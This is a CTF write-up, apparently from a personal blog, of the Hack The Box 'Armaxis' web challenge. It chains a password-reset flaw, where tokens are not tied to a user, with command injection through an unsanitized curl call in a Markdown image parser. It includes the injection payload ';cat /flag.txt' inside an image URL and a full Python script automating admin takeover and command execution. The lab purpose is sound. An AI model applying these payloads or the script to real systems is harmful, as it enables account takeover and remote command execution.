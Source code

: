 ```yaml
---
date:
  created: 2025-08-06
categories:
  - CTF Writeup
  - Hackthebox
  - Web Application Penetration Testing
  - Command Injection
authors:
  - dibsy
---
```


# Logical Bug + Command Injection = Flag

### Summary

The application was vulnerable to a logical flaw in the password reset mechanism that allowed unauthorized password resets. By exploiting this flaw, we reset the **admin** user's password. This privilege escalation allowed access to an admin-only weapon dispatch feature, which included a command injection vulnerability via unsanitized `curl` execution in Markdown parsing. Combining both vulnerabilities led to command execution and flag retrieval.

<!-- more -->

### Part 1: Logical Flaw in Password Reset

The `/reset-password` endpoint takes a token, new password, and email:

```js
router.post("/reset-password", async (req, res) => {
  const { token, newPassword, email } = req.body;
  if (!token || !newPassword || !email)
    return res.status(400).send("Token, email, and new password are required.");

  try {
    const reset = await getPasswordReset(token);
    if (!reset) return res.status(400).send("Invalid or expired token.");

    const user = await getUserByEmail(email);
    if (!user) return res.status(404).send("User not found.");

    await updateUserPassword(user.id, newPassword);
    await deletePasswordReset(token);

    res.send("Password reset successful.");
  } catch (err) {
    console.error("Error resetting password:", err);
    res.status(500).send("Error resetting password.");
  }
});
```

And the `getPasswordReset()` logic:

```js
async function getPasswordReset(token) {
  const query = `SELECT * FROM password_resets WHERE token = ? AND expires_at > ?`;
  const reset = await get(query, [token, Date.now()]);
  return reset;
}
```

🚨 **Vulnerability:** The reset token is **not linked to any user**. Any valid token in the table can be used to reset the password of **any user** by supplying a matching email.

### Exploitation Steps

1. Register a user with your own email.
2. Request a password reset — get your token.
3. Discover admin email: `admin@armaxis.htb` (from source code).
4. Submit the token and set a new password for the admin:
    ```json
    {
      "token": "<your_token>",
      "newPassword": "newadmin123",
      "email": "admin@armaxis.htb"
    }
    ```

✅ You can now log in as admin.

---

### Part 2: Command Injection in Markdown Image Parser

The `/weapons/dispatch` route is **admin-only**, and takes a Markdown `note`:

```js
router.post("/weapons/dispatch", authenticate, async (req, res) => {
  const { role } = req.user;
  if (role !== "admin") return res.status(403).send("Access denied.");

  const parsedNote = parseMarkdown(note);
  await dispatchWeapon(name, price, parsedNote, dispatched_to);

  res.send("Weapon dispatched successfully.");
});
```

#### Vulnerable Markdown Parser

```js
function parseMarkdown(content) {
  if (!content) return '';
  return md.render(
    content.replace(/\!\[.*?\]\((.*?)\)/g, (match, url) => {
      try {
        const fileContent = execSync(`curl -s ${url}`);
        const base64Content = Buffer.from(fileContent).toString('base64');
        return `<img src="data:image/*;base64,${base64Content}" alt="Embedded Image">`;
      } catch (err) {
        return `<p>Error loading image: ${url}</p>`;
      }
    })
  );
}
```

🚨 **Vulnerability:** The URL inside Markdown image `![alt](url)` is passed **unsanitized** to `curl`, leading to **command injection**.

---

### Exploiting the Vulnerability

To read `/flag.txt`, we inject a command in the image markdown:

```json
{
  "name": "a",
  "price": 1,
  "note": "![logo](http://127.0.0.1;cat /flag.txt)",
  "dispatched_to": "admin@armaxis.htb"
}
```

✅ The result of the `cat /flag.txt` command gets embedded in the `src` of the generated image as base64.

You can decode it to get the flag:

```
<img src="data:image/*;base64,SE...==" />
```

Which gives:

```
HTB{m4rkd0wn.........}
```

---

### Conclusion

Two chained vulnerabilities:

- A **logic flaw** in the password reset flow.
- A **command injection** via image Markdown processing.

Together, they allowed privilege escalation and remote command execution, leading to full compromise of the application.

### Automation
```python
import requests
import random
import string
from bs4 import BeautifulSoup
import re
import base64

def generate_random_string(length=12):
    chars = string.ascii_letters + string.digits
    return ''.join(random.choices(chars, k=6))

email = "test@email.htb"
username = generate_random_string()
password = generate_random_string()

proxies = {
    "http":"127.0.0.1:8080"
}

target = "http://83.136.248.112:41163"
target_mail = "http://83.136.248.112:35824/"
#target = "http://83.136.248.112:32701/"

json_data = {
    "email": email,
    "password": password
}

print(f"Registering with {email}:{password}")
req = requests.post(target+"/register", json=json_data)
print(req.text)

print(f"Requesting a new reset token for the {email}")
req = requests.post(target+"/reset-password/request",json={"email":email})
print(req.text)

print(f"Capturing a token from the mail")
req = requests.get(target_mail)
soup = BeautifulSoup(req.text,'html.parser')
tds = soup.find_all('td')

tokens = []

for td in tds:
    match = re.search(r'\b[a-f0-9]{32}\b',td.text)
    if match:
        token = match.group()
        print(token)
        tokens.append(token)

admin_email = "admin@armaxis.htb"
print(f"Requesting a password reset for {admin_email}")
req = requests.post(target+"/reset-password/request",json={"email":admin_email})
print(req.text)

new_password = generate_random_string()

print(f"Running a password reset for {admin_email} with a new password {new_password}")

for token in tokens:
    req = requests.post(target+"/reset-password/",json={"token":token,"newPassword":new_password,"email":admin_email},proxies=proxies)
    if not "Invalid" in req.text:
        break

print(f"Logging in as admin")
sess = requests.Session()
req = sess.post(target+"/login",json={"email":admin_email,"password":new_password},proxies=proxies)
print(req.text)

print(f"Injecting commands into the /weapons/dispatch")
req = sess.post(target+"/weapons/dispatch",json={"name":"xyz","price":1,"note":"![logo](http://127.0.0.1;cat /flag.txt)","dispatched_to":"admin@armaxis.htb"},proxies=proxies)

print(f"Fetching the flag")
req = sess.get(target+"/weapons")
soup = BeautifulSoup(req.text,'html.parser')
img_tags = soup.find_all('img')
for img_tag in img_tags:
    src = img_tag.get("src","")
    match = re.match(r"^data:image/[^;]+;base64,(.*)", src)
    if match:
        base64_data = match.group(1)
        try:
            temp = base64.b64decode(base64_data)
            print(temp.decode().strip())
        except:
            pass
```
